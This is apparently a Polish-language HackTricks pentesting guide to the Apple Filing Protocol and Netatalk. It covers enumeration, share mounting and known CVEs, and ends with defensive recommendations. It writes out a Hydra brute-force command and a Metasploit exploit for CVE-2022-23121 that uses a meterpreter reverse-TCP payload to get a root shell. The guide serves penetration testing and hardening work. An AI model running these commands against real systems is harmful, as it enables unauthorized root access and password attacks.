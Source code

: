 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## Podstawowe informacje

**Apple Filing Protocol** (**AFP**), dawniej znany jako AppleTalk Filing Protocol, to specjalizowany protokół sieciowy wchodzący w skład **Apple File Service** (**AFS**). Został zaprojektowany w celu zapewnienia usług plikowych dla macOS i klasycznego Mac OS. AFP wyróżnia się wsparciem dla nazw plików Unicode, uprawnień w stylu POSIX i ACL, forków zasobów, nazwanych atrybutów rozszerzonych oraz zaawansowanych mechanizmów blokowania plików.

Chociaż AFP został zastąpiony przez SMB w nowoczesnych wersjach macOS (SMB jest domyślnym protokołem od OS X 10.9), nadal można go spotkać w:

* Środowiskach legacy macOS / Mac OS 9
* Urządzeniach NAS (QNAP, Synology, Western Digital, TrueNAS…), które zawierają otwartoźródłowy demon **Netatalk**
* Sieciach z mieszanymi systemami operacyjnymi, gdzie Time-Machine-over-AFP jest nadal włączone

**Domyślny port TCP:** **548** (AFP przez TCP / DSI)
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## Enumeracja

### Szybki baner / informacje o serwerze
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
Przydatne skrypty NSE dla AFP:

| Skrypt | Co robi |
|--------|--------------|
| **afp-ls**            | Wyświetla dostępne wolumeny i pliki AFP |
| **afp-brute**         | Atak brute-force na hasło logowania AFP |
| **afp-serverinfo**    | Wyciąga nazwę serwera, typ maszyny, wersję AFP, obsługiwane UAM-y itp. |
| **afp-showmount**     | Wyświetla udostępnienia wraz z ich ACL-ami |
| **afp-path-vuln**     | Wykrywa (i może wykorzystać) ataki typu directory-traversal, CVE-2010-0533 |

Skrypt brute-force NSE można połączyć z Hydra/Medusa, jeśli wymagana jest większa kontrola:
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### Interacting with shares

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (używając `afpfs-ng` ‑ pakowanego w większości dystrybucji)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
Po zamontowaniu pamiętaj, że klasyczne zasoby Maca są przechowywane jako ukryte pliki `._*` AppleDouble – często zawierają interesujące metadane, które narzędzia DFIR pomijają.

---

## Powszechne podatności i eksploatacja

### Netatalk nieautoryzowany łańcuch RCE (2022)

Kilku dostawców NAS dostarczyło **Netatalk ≤3.1.12**. Brak sprawdzania granic w `parse_entries()` pozwala atakującemu na skonstruowanie złośliwego nagłówka **AppleDouble** i uzyskanie **zdalnego dostępu root** przed uwierzytelnieniem (**CVSS 9.8 – CVE-2022-23121**). Pełny opis od NCC Group z PoC wykorzystującym Western-Digital PR4100 jest dostępny.

Metasploit (>= 6.3) zawiera moduł `exploit/linux/netatalk/parse_entries`, który dostarcza ładunek za pomocą DSI `WRITE`.
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
Jeśli cel działa na podatnym firmware QNAP/Synology, udane wykorzystanie skutkuje uzyskaniem powłoki jako **root**.

### Przepełnienie sterty OpenSession w Netatalk (2018)

Starsze wersje Netatalk (3.0.0 - 3.1.11) są podatne na zapis poza zakresem w obsłudze **DSI OpenSession**, co pozwala na wykonanie nieautoryzowanego kodu (**CVE-2018-1160**). Szczegółowa analiza i PoC zostały opublikowane przez Tenable Research.

### Inne istotne problemy

* **CVE-2022-22995** – Przekierowanie symlinków prowadzące do zapisu dowolnych plików / RCE, gdy AppleDouble v2 jest włączone (3.1.0 - 3.1.17).
* **CVE-2010-0533** – Przechodzenie przez katalogi w Apple Mac OS X 10.6 AFP (wykryte przez `afp-path-vuln.nse`).
* Naprawiono wiele błędów związanych z bezpieczeństwem pamięci w **Netatalk 4.x (2024)** – zaleca się aktualizację zamiast łatania poszczególnych CVE.

---

## Rekomendacje obronne

1. **Wyłącz AFP**, chyba że jest to ściśle wymagane – użyj zamiast tego SMB3 lub NFS.
2. Jeśli AFP musi pozostać, **zaktualizuj Netatalk do ≥ 3.1.18 lub 4.x**, lub zastosuj firmware dostawcy, który wprowadza poprawki z lat 2022/2023/2024.
3. Wymuś **Silne UAM** (np. *DHX2*), wyłącz logowanie w czystym tekście i gości.
4. Ogranicz TCP 548 do zaufanych podsieci i umieść AFP w VPN, gdy jest wystawione zdalnie.
5. Okresowo skanuj za pomocą `nmap -p 548 --script afp-*` w CI/CD, aby wykryć nieautoryzowane / obniżone urządzenia.

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## Referencje

* Netatalk Security Advisory CVE-2022-23121 – "Wykonanie dowolnego kodu w parse_entries" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "Wykorzystywanie 18-letniego błędu (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
